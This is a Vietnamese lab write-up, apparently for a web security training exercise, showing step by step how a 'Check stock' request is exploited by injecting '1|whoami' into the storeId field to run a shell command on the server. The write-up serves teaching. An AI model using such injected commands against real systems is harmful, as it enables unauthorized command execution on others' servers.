




# Lab 01: OS Command Injection (Simple Case)

## Mục tiêu
Khai thác lỗ hổng OS Command Injection tại chức năng `Check stock` để thực thi lệnh `whoami`.

## Đề bài

<br><br>

## Bước 1: Xác định điểm nhập liệu
Ở trang sản phẩm có chức năng kiểm tra tồn kho theo `storeId`.


<br><br>

## Bước 2: Bắt request check stock bằng Burp
Khi bấm `Check stock`, ứng dụng gửi request:

```http
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

productId=1&storeId=1
```


<br><br>

## Bước 3: Chèn payload command injection
Sửa `storeId` thành:

```txt
1|whoami
```

Request sau khi sửa:

```http
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

productId=1&storeId=1|whoami
```

Lý do payload hoạt động: ký tự `|` tách lệnh trong shell, nên ngoài lệnh kiểm tra tồn kho, server còn thực thi thêm `whoami`.


<br><br>

## Kết quả
Response trả về tên user hệ thống (ví dụ `peter-gjqfYc`), chứng minh có OS Command Injection và lab được solve.
